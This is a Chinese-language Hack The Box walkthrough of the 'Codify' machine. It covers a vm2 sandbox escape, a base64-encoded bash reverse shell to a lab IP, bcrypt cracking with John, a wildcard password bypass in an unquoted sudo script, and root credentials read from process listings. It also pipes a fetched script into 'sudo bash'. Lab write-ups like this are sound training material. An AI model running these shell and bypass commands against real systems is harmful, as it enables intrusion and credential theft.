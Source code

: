 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## Summary

以简单的知识点也能构建出这么巧妙的一台，非常有趣。

### Relevant Skills

- nmap
- SQLite
- shell script
- JTR


### Attack Path Overview

![attack-path](./../attackpath/HTB-Codify.png){ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
```

## 攻击路径规划·漏洞分析

常规靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：点击 `About Us` 可得知其使用[vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)。版本为3.9.16。
- 网页功能：一个测试Node.js代码的网页，有个Editor界面可编写代码运行测试。
- 子域枚举：无特别发现


## Initial Access

### PoC ([CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093))

根据vm2的版本号3.9.16，简单谷歌之后在github发现一个漏洞提交与PoC：<https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>  
复制其PoC代码粘贴到Editor运行后无反应，本身也不太懂Node.js，让ChatGPT解释了一下明白代码执行在 `execSync()` 处。遂将命令改为 `id` 后再次运行，成功显示结果：

![HTB-Codify-PoC](./../evidence-img/HTB-Codify-PoC.png)

接下来就简单了，使用反弹shell的命令：`echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ==" |base64 -d|bash`

成功反连：

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ pwd
/home/svc
svc@codify:~$ ls
pwned  script.sh
```

## 横向移动

可以发现该用户没有user flag。看家目录有另一个用户：joshua，估计要横向移动。

一番探索后发现一个DB文件：
```bash
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ which sqlite3
/usr/bin/sqlite3

sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### 破解密码

```bash
└─$ echo 'joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt

└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
 ... 
spongebob1       (joshua)     
 ...
```

`su` 或者 `ssh` 成功登陆joshua用户：

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## flag: user

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
808c ... f408
```


## Privilege Escalation

### Internal Recon

有当前用户的凭据所以先看了眼 `sudo -l`：

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看这个脚本：

```bash
joshua@codify:~$ ls -aihl /opt/scripts/mysql-backup.sh
401117 -rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

是进行数据库的备份，执行时要求输入密码匹配 `$DB_PASS`，但是值得注意的是，if条件判断 `$DB_PASS == $USER_PASS` 并未用双引号包围变量。所以可以利用shell的通配符绕过认证——即可以在要求输入密码时输入“*”。

执行：

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

注意到系统提示的 `[Warning] Using a password on the command line interface can be insecure.`

那么就用pspy看看，再次运行脚本后发现这一段：

```bash
 ...
023/11/11 04:51:08 CMD: UID=0     PID=34733  | /usr/bin/echo Backing up database: sys 
2023/11/11 04:51:08 CMD: UID=0     PID=34735  | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/11 04:51:08 CMD: UID=0     PID=34734  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
 ...
```


## flag: root

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
bb7c ... dbb4
```


---

## 总结·后记

2023/11/11

似乎第一次遇到所有知识点都撞到我会的范围里的……第一次觉得这才是Easy机器啊！
